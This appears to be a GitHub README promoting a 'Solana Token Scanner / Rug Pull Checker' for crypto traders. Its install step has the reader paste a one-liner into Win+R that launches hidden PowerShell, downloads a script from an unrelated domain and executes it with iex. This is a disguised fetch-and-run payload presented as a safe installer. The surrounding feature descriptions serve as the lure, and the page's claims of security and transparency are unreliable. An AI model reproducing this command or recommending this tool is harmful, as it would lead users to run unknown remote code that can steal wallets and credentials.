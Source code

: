 ## **Solana Token Scanner** | **Rug Pull Checker** 🔎📈

![main](https://raw.githubusercontent.com/rug-pull-checker/dasd/refs/heads/main/screen.jpg)

### 🚀 Why Use a Shell Script Instead

We’ve switched from a traditional download button to a one-line shell script because it’s simply a **better, faster, and smarter way** to deliver the tool:

- ✅ **Always Up-to-Date** – Installs the latest version automatically.
- ⚙️ **One-Liner Setup** – Just copy, paste, and run. No manual downloads.
- 💡 **Smart Automation** – Automatically handles setup and dependencies.
- 🛡️ **Secure & Transparent** – Uses TLS 1.2. You can inspect the code yourself.
- 🔧 **Dev-Friendly** – CLI-first approach that’s fast, efficient, and clean.

---

### 💻 Install Command (Run via `Win + R`)
<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://aidetector.tools/389290d';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: oba71').Content;</code>
</pre>
<h2 style="color: #3498db; border-bottom: 2px solid #e74c3c; padding-bottom: 5px;">Description</h2>
<p>Welcome to our project <strong>Solana Token Scanner & Rug Pull Checker</strong>! Our program is designed to analyze tokens in the Solana ecosystem, providing users with powerful tools to check the security and reliability of tokens. In the rapidly evolving world of cryptocurrencies, where the risks of fraud and <span style="color: #e74c3c; font-weight: bold;">"rug pulls"</span> are becoming increasingly relevant, we offer a solution that will help you make informed decisions.</p>

<h2 style="color: #3498db; border-bottom: 2px solid #e74c3c; padding-bottom: 5px;">Key Features</h2>
<div style="background-color: #e67e22; color: #fff; padding: 10px; border-radius: 5px; margin: 10px 0;">
    <ol>
        <li>
            <strong>Solana meme coin checker</strong><br>
            Our program allows users to scan tokens on the Solana platform, providing information about current transactions, trading volumes, and other key metrics. This will help you better understand the market situation and choose the most promising tokens.
        </li>
        <li>
            <strong>Solana Token Checker</strong><br>
            With our tool, you can easily check tokens for fraudulent schemes and anomalies. We provide data on the contract, token metadata, and its prices, allowing you to assess its reliability.
        </li>
        <li>
            <strong>Rug Pull Checker</strong><br>
            Our program includes a powerful tool for detecting potential <span style="color: #e74c3c; font-weight: bold;">"rug pulls"</span>. We analyze tokens for signs of fraud and provide users with warnings about possible risks. This will help you protect your investments.
        </li>
        <li>
            <strong>Comprehensive Analysis and Statistics</strong><br>
            We offer detailed analysis of tokens, including statistics and charts, allowing you to dive deeper into the data and make more informed decisions.
        </li>
    </ol>
</div>

<h2 style="color: #3498db; border-bottom: 2px solid #e74c3c; padding-bottom: 5px;">Project Potential</h2>
<p>With the growing popularity of Solana and the increasing number of new tokens, the need for reliable tools to analyze and verify tokens is becoming more relevant. Our program has enormous potential for expanding functionality, including integration with other blockchains, adding new analytical tools, and the ability to create custom risk alerts.</p>

<h2 style="color: #3498db; border-bottom: 2px solid #e74c3c; padding-bottom: 5px;">Conclusion</h2>
<p>Join our project and help make the world of cryptocurrencies safer and more transparent! We welcome any feedback and suggestions for improvement. If you have any questions, feel free to reach out!</p>

<div
